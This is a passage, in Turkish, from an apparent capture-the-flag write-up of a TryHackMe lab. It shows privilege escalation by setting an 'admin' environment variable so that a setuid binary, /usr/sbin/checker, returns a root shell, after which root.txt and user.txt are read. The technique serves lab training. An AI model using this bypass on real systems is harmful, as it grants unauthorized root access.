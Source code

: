 Burada *admin* değeri ortam değişkeninleri içerisinde aranmaktadır. Bypass için `export` komutu ile admin değişkeni tanımlanır ve rastgele bir değer atanır.
```bash
export admin="test"
```
*/usr/sbin/checker* uygulaması çalıştırıldığında root yetkisi ile shell oturumu elde edilir.

```terminal
/usr/sbin/checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
Root dizini altında yer alan root.txt okunur.

{{< image src="/images/thm/blog/root.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

User.txt için `find` komutu ile arama yapıldığında /media/usb/ dizini altında bulunur. 

```bash 
find -name 'user.txt' 2>/dev/null
```
```terminal
/home/bjoel/user.txt
/media/usb/user.txt
```
{{< image src="/images/thm/blog/user.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}